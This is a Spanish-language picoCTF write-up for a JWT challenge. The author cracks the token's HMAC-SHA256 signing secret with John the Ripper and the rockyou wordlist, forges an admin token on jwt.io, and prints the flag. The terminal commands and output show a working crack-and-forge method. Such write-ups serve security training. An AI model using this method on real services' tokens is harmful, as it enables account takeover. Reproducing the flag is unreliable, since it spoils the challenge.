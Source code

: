 ## Objetivo 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solución
```bash
──(luispuentes㉿kali)-[~]
└─$ nano crack

┌──(luispuentes㉿kali)-[~]
└─$ cat crack
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiTHVpc1B1ZW50ZXMifQ.9keFp9mYBCeDoR2U-kyqoYnWZliey7Y-pFHofBpDNgE

┌──(luispuentes㉿kali)-[~]
└─$ ls /usr/share/wordlists
amass      dnsmap.txt     john.lst    nmap.lst        wfuzz
dirb       fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt

┌──(luispuentes㉿kali)-[~]
└─$ gzip -d /usr/share/wordlists/rockyou.txt.gz 
gzip: /usr/share/wordlists/rockyou.txt: Permission denied

┌──(luispuentes㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
[sudo] password for luispuentes:  

┌──(luispuentes㉿kali)-[~]
└─$ john crack --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-sha256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
No password hashes left to crack (see FAQ)

┌──(luispuentes㉿kali)-[~]
└─$ john --show crack
?:ilovepico

1 password hash cracked, 0 left

```

En esta pagina https://jwt.io/ se modifica el valor de la cookie para que sea admin el usuario utilizando la palabra ilovepico para la encriptacion.

El nuevo valor de la cookie se coloca en jwt y se recarga la pagina y listo, tenemos la contraseña

picoCTF{jawt_was_just_what_you_thought_1ca14548}
## Notas
john crack --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-sha256
con este comando un archivo (crack en este caso) se pone a analizar para crackearlo comparandolo con las posibles contraseñas de rockyou.txt

## Referencias
https://www.json.org/json-es.html
https://jwt.io/
https://github.com/openwall/john